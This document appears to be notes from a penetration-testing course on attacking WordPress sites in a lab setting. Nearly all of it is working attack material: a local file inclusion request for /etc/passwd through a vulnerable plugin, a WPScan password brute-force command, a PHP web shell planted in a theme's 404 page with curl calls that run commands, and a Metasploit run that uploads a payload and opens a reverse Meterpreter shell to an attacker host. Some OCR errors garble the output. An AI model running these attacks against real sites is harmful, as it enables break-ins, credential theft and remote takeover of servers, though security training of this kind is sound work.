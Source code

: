 # Exploiting a vulnerable plugin


```
/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd.
```


# Attacking WordPress Users

WPscan can be used to brute force usernames and passwords. 

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.

The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

```
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```


# RCE via the Theme Editor

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

```shell
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

```
curl -X GET "http://94.237.59.30:37428/wp-content/themes/twentyseventeen/404.php?cmd=cat%20%2Fhome%2Fwp%2Duser%2Fflag%2Etxt"
```
# Attacking Wordpress with Metasploit

```
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```